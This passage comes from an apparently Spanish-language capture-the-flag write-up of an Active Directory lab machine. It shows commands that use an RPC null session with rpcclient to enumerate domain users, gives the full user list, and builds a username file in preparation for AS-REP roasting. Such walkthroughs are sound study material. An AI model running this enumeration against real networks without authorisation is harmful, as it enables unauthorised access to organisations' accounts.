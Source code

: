 - Bueno tenemos el protocolo **RPC** abierto asi que vamos a comenzar haciendo un **Null Session** para enumerar los usuarios.

```bash
➜  nmap rpcclient -N -U '' 10.129.96.155
rpcclient $> enumdomusers
user:[Administrator] rid:[0x1f4]
user:[Guest] rid:[0x1f5]
user:[krbtgt] rid:[0x1f6]
user:[DefaultAccount] rid:[0x1f7]
user:[ryan] rid:[0x451]
user:[marko] rid:[0x457]
user:[sunita] rid:[0x19c9]
user:[abigail] rid:[0x19ca]
user:[marcus] rid:[0x19cb]
user:[sally] rid:[0x19cc]
user:[fred] rid:[0x19cd]
user:[angela] rid:[0x19ce]
user:[felicia] rid:[0x19cf]
user:[gustavo] rid:[0x19d0]
user:[ulf] rid:[0x19d1]
user:[stevie] rid:[0x19d2]
user:[claire] rid:[0x19d3]
user:[paulo] rid:[0x19d4]
user:[steve] rid:[0x19d5]
user:[annette] rid:[0x19d6]
user:[annika] rid:[0x19d7]
user:[per] rid:[0x19d8]
user:[claude] rid:[0x19d9]
user:[melanie] rid:[0x2775]
user:[zach] rid:[0x2776]
user:[simon] rid:[0x2777]
user:[naoki] rid:[0x2778]
```

- Y bueno tenemos un listado potencial de usuarios vamos a ponerlos en una lista y probar un **ASREPRoast** <https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/asreproast>.

```bash
➜  nmap rpcclient -N -U '' 10.129.96.155 -c enumdomusers | grep -oP '\[\D*?\]' | tr -d '[]' > users.txt
➜  nmap cat users.txt
Administrator
Guest
krbtgt
DefaultAccount
ryan
marko
sunita
abigail
marcus
sally
fred
angela
felicia
gustavo
ulf
stevie
claire
paulo
steve
annette
annika
per
claude
```